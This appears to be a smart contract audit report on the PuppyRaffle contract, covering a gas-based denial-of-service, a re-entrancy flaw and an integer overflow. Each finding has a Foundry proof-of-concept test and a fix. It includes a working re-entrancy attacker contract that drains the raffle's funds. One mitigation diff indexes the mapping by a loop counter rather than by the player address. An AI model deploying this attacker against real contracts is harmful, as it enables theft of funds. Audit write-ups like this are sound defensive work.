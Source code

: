 ### [M-#] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service(DOS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```js
// @audit Dos Attack
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 set of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252039 gas 
- 2nd 100 players: ~18068130 gas

This is more than 3x more expensive for the seconds 100 players.

<details>
<summary>Poc</summary>
Place the following test into `PuppyRaffleTest.t.sol`

```js
    function test_denialOfService() public {
        vm.txGasPrice(1);

        // let's enter 100 players
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStartFirst = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        uint256 gasEndFirst = gasleft();
        uint256 gasUsedFirst = (gasStartFirst - gasEndFirst) * tx.gasprice;

        console.log("Gas Cost for the first %s players ->", playersNum, gasUsedFirst);

        // now for the 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }

        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;

        console.log("Gas Cost for the second %s players ->", playersNum, gasUsedSecond);

        assertLt(gasUsedFirst, gasUsedSecond);

        // Logs:
        //     Gas Cost for the first 100 players -> 6252039
        //     Gas Cost for the second 100 players -> 18068130
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check dosen't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

<details>
<summary>Mitigation</summary>

```diff
+   mapping(address => uint256) public s_addressToRaffleId;
+   uint256 public raffleId = 0;
.
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates only from the new players
+           require(s_addressToRaffleId[i] != raffleId, "PuppyRaffle: Duplicate player");
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-       // check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
    }

    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
    }
```
</details>

---

### [H-#] `PuppyRaffle::refund` is vulnerable to Re-entrancy attack, potentially resulting in the loss of funds.

**Description:** `PuppyRaffle::refund` is sending the `entranceFee` back to the user. However, the issue arises because the user's balance is updated after sending the ETH, leading to Re-entrancy vulnerability.

```js
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }   
```

**Impact:** This results in the attacker withdrawing all the funds locked within the contract.

**Proof of Concept:** 

<details>
<summary>Poc</summary>

```js
    function test_Reentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 raffleBalanceBefore = address(puppyRaffle).balance;

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);

        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;

        vm.startPrank(attackUser);
        attackerContract.attack{value: entranceFee}();
        vm.stopPrank();
        // attacker has entered the raffle.

        uint256 endingAttackContractBalance = address(attackerContract).balance;
        uint256 raffleBalanceAfterAttack = address(puppyRaffle).balance;

        console.log("Starting attacker contract balance: ", startingAttackContractBalance);
        console.log("Starting Raffle Balance", raffleBalanceBefore);

        console.log("Ending attacker contract balance: ", endingAttackContractBalance);
        console.log("Raffle Balance After Attack", raffleBalanceAfterAttack);

        assertEq(endingAttackContractBalance, startingAttackContractBalance + 5 ether, "attackerContractBalance");
        assertEq(raffleBalanceAfterAttack, 0);
    }

    contract ReentrancyAttacker {
        PuppyRaffle private immutable i_victimContract;
        uint256 private immutable i_entranceFee;
        uint256 private s_attackerIndex;

        constructor(PuppyRaffle victimContract) {
            i_victimContract = PuppyRaffle(victimContract);
            i_entranceFee = victimContract.entranceFee();
        }

        function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            i_victimContract.enterRaffle{value: i_entranceFee}(players);

            s_attackerIndex = i_victimContract.getActivePlayerIndex(address(this));
            i_victimContract.refund(s_attackerIndex);
        }

        function _stealMoney() internal {
            if (address(i_victimContract).balance > 0) {
                i_victimContract.refund(s_attackerIndex);
            }
        }

        receive() external payable {
            _stealMoney();
        }

        fallback() external payable {
            _stealMoney();
        }
    }
```

</details>

**Recommended Mitigation:** 

There are few mitigations:

1. Follow CEI(Checks, Effects, Interactions).
   - Modifying storage variables falls under Effects.
   - Sending ETH to other contracts falls under Interactions.
   - To preserve CEI, storage variables has to be updated before external interactions.

2. Use Reentrancy Guard from [Openzeppelin](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard). 

<details>
<summary>Mitigation</summary>

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

-       payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);

+       payable(msg.sender).sendValue(entranceFee);
    }
```

</details>

---

### [H-#] The `PuppyRaffle::selectWinner` function sets aside 20% of `totalAmountCollected` for later withdrawal by the owner. However, as `totalFees` is stored as a uint64, there is a risk of potential integer overflow.

**Description:** `type(uint64).max` value is `18446744073709551615`, Let's say 100 players entered the raffle therfore total fees will be 100 ether. 20% of 100 ether will be  `20000000000000000000`. This number is bigger than `type(uint64).max` which can cause potential overflow.

```js
    function selectWinner() external {
        .
        .
        .
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;

@>      totalFees = totalFees + uint64(fee);

    }

```

**Impact:** As more players enter, `totalFees` will get bigger and 20% of `totalFees` cannot be stored in `fee` which is `uint64` which can cause potential Integer Overflow.

**Proof of Concept:**

<details>
<summary>Poc</summary>

```js
    function test_Overflow() public {
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);

        // simulate raffle duration is over
        vm.warp(4 days);
        vm.roll(block.number + 1);

        // // let's call select winner
        puppyRaffle.selectWinner();

        uint256 actualFee = ((players.length * entranceFee) * 20) / 100;
        console.log("Actual Fee", actualFee); // 20000000000000000000

        uint256 precisionLostFee = puppyRaffle.totalFees();
        console.log("Precison Lost Fee", precisionLostFee); // 1553255926290448384
    }

    - 20% of 100 ether is 20 ether
    - since typecasting to `uint64`, `totalFees` is displaying some random number. 
```


</details>

**Recommended Mitigation:**

Consider avoiding type casting from bigger to smaller.
eg: `uint256` to `uint64`

<details>
<summary>Mitigation</summary>

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;

    function selectWinner() external {
        .
        .
        .
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        
-        totalFees = totalFees + uint64(fee);
+        totalFees = totalFees + fee;
    }
```
</details>